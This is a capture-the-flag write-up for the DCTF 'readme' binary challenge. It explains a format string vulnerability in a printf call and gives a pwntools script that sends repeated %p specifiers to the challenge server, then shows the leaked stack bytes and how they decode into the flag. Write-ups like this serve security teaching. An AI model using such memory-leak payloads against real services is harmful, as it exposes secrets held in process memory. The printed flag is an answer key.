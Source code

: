 # Readme

## Description

Read me to get the flag.

`nc dctf-chall-readme.westeurope.azurecontainer.io 7481`

[readme](readme)

## Solution

First step let's decompile the binary with Ghidra. In the `main` function (the binary is not stripped) we can easily find the function `vuln` and after a brief looking it was easy to spot the format string vulnerability: there is a `printf` function with a user-controlled buffer.

![img1](img/img1.png)

The idea is send some `%x` / `%d` / ` %s` / `%p` in order to dump the flag just readed and placed in the `flag_buffer` array.

```python
from pwn import *

elf = ELF('./readme')
p = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)
payload = '%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p' #bounch of %p

p.sendline(payload)
p.recvline()
p.interactive()
```

The output of the python script is:

```
┌──(kali㉿kali)-[~/Desktop/dragonsec/readme]
└─$ python3 readmyb00th0l3.py
[*] '/home/kali/Desktop/dragonsec/readme/readme'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dctf-chall-readme.westeurope.azurecontainer.io on port 7481: Done
[*] Switching to interactive mode
hello 0x7ffe59b6a440(nil)(nil)0x60x6(nil)0x55c5388bc2a00x77306e7b667463640x646133725f30675f0x30625f656d30735f0x7f7300356b300x70257025702570250x70257025702570250x7025702570257025[*] Got EOF while reading in interactive
```

Now with a simple recovery of the stack dumped we can spot the flag:

```
  RAW BYTE        ASCII    ASCII (inverted little-endian)
55cff83cd2a0     --junk--
77306e7b66746364 w0n{ftcd dctf{n0w
646133725f30675f da3r_0g_ _g0_r3ad
30625f656d30735f 0b_em0s_ _s0me_b0
7ff900356b30     .ù5k0    0k5}
7025702570257025 p%p%p%p%
7025702570257025 p%p%p%p%
7025702570257025 p%p%p%p%
```

#### **FLAG >>** `dctf{n0w_g0_r3ad_s0me_b00k5}`
